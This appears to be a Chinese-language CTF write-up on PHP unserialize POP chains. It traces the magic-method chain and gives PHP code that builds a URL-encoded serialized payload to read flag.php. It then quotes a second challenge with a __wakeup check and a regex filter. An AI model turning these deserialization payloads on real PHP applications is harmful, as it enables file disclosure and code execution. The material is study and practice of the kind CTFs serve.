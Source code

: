 



观察函数，需要构造`$value=flag.php`

`append` 执行需要`__invoke()` 被触发，`Modifier`实例作为函数调用

`Modifier` 作为函数调用，需要`__get` 被触发且`$p=new Modifier()` ==> 进而触发`__invoke()`

访问Test对象不存在的属性：`toString()` 触发且`$str=new Test()` ==>进而触发`__get()`

`__wakeup()` 触发且`$source=new Show()` ==> 进而触发 `__toString()`



```php
class Modifier{
    protected $var="flag.php";
}
class Test{
    public $p;
}
class Show{
    public $source;
    public $str;
    
    public function __construct(){
        $this->str=new Test();
    }
}
$a=new Show();
$a->source=new Show();
$a->source->str->p=new Modifier();
echo urlencode(serialize($a));
```



### 2

题目：



```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
```